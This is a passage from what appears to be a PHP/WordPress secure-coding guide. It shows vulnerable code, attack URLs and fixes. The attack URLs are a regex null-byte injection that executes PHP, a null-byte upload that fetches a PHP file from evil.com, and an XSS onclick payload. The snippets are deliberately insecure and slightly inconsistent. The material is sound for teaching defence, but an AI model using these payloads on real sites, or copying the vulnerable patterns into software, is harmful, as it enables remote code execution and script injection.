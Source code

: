 #### Attack

```
http://localhost/naive-search-replace.php?pattern=.%23e%00&replace=echo%20phpversion();
```

#### Result
```html
5.3.6
```

#### Solution
* Use `preg_quote`.

```php
$pattern = preg_quote( $_GET['pattern'], '#' );
...
```

### Example: Unsafe file type check
```php
$wp_upload_dir = wp_upload_dir();
$image_cache_dir = $wp_upload_file . '/image-cache/';

$image_name = basename( $_GET['url'] );
$valid_type = wp_check_filetype( $image_file );

if ( !$valid_type || empty( $valid_type['ext'] ) )
	die( 'Invalid type.' );

$tmp = download_url( $_GET['url'] );
copy( $tmp, $image_cache_dir . '/' . $image_file );
```

PHP code execution

#### Attack
```
http://localhost/image-cache.php?file=http://evil.com/dangerous.php%00ignored.gif
```
#### Solution
* Use `sanitize_file_name`

```php
$image_name = sanitize_file_name( basename( $_GET['url'] ) );
...
```

* Keep WordPress up to date -- core fix for `sanitize_file_name` http://core.trac.wordpress.org/changeset/12072



OS Injection
------------


[fancy-xss]: <http://example.com/#"onclick="alert(/XSS/);"data-foo=">